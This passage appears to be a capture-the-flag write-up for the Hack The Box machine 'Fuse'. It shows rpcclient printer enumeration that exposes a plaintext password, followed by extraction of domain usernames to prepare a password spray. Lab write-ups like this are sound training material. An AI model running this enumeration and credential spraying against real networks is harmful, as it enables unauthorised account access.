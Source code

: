 ```shell
rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```
It appears we got a password `$fab@s3Rv1ce$1`

### Username Hunt

Let's test this password against others users we got from RPC, I'll copy the output of rpc, extract usernames and save it inside a new file:

```shell
cfx:  ~/Documents/htb/fuse
→ cat users_rpc.txt
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

cfx:  ~/Documents/htb/fuse
→ cat users_rpc.txt | awk -F] '{print $1}' | awk -F[ '{print $2}'
Administrator
Guest
krbtgt
DefaultAccount
svc-print
bnielson
sthompson
tlavel
pmerton
svc-scan
bhult
dandrews
mberbatov
astein
dmuir

cfx:  ~/Documents/htb/fuse
→ cat users_rpc.txt | awk -F] '{print $1}' | awk -F[ '{print $2}' > rpc_users.txt
```
Now let's run crackmapexec:
